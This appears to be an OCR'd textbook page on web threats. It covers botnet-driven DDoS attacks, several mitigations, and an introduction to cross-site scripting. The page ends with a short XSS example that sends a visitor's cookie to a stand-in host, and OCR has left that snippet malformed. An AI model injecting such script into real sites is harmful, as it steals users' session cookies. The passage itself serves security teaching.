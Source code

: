 Automated tools exist to launch distributed DoS attacks on a target. Without needing much knowledge, somebody can scan a large number of machines for known vulnerabilities,  compromise a machine, and install the tool. Because the process is automated, an attacker can install the tool on a single host in less than five seconds. When enough machines have been co-opted, all are instructed to flood the target with network traffic. Machines that have been compromised in such a way are sometimes called zombies or bots, and a collection of  compromised machines used to launch an attack is called a botnet.

Reducing the RiskGuarding against DoS attacks is difficult in general. With a little research, you can find the default ports used by some common DDoS tools and close them. Your router might provide mechanisms to limit the percentage of traffic that uses particular protocols such as ICMP. Detecting hosts on your network being used to attack others is easier than protecting your machines from attack. If every network administrator could be relied on to vigilantly monitor his own network, DDoS would not be such a problem.

It’s generally a good idea to have a plan for what happens when you receive a massive influx of traffic, for whatever reason. 

One option is to block known problematic traffic at your load balancer. Of course, this only works as long as your load balancer survives, and as long as the traffic is coming from a recognizable set of IPs (like some botnets).

Another option is to develop a mechanism to have a way to make parts or all of the site static, even temporarily, and push it to a content distribution network. This works well for managing the friendly kind of traffic peak.

Another is to implement so called feature flagging in your application. This allows you to turn features on and off. In times of high load, you might switch off less-critical or more expensive features to cope with the extra traffic.

Some of the cloud hosting vendors, such as Amazon Web Services (AWS), provide auto-scaling mechanisms where more servers are automatically added to cope with traffic. This works 

Identifying the Threats We Face

337

well for friendly traffic peaks, but may not be helpful in a malicious DDoS situation, because auto-scaling can be very expensive.

Because there are so many possible methods of attack, the only really effective defense is to monitor normal traffic behavior and be ready to take countermeasures when abnormal situations occur. Under DDoS, even this may not be sufficient.

Malicious Code InjectionOne type of attack that has been particularly effective over the years via the web is what is called code injection. The well known of these is Cross Site Scripting (known as XSS, so as not to be confused with Cascading Style Sheets—CSS). What is particularly troubling about these attacks is that no obvious or immediate loss of data occurs, but instead some sort of code executes, causing varying degrees of information loss or redirection of users, possibly without their even noticing it. 

Cross Site Scripting basically works as follows:

1.  The malicious user, in a form that will then turn around and display to other people the input it was given (such as a comment entry form or message board entry form), enters text that not only represents the message they want to enter, but some script to execute on the client, such as the following:  <script ="text/javascript">    this.document = "go.somewhere.bad?cookie=" + this.cookie;  </script ="text/javascript">
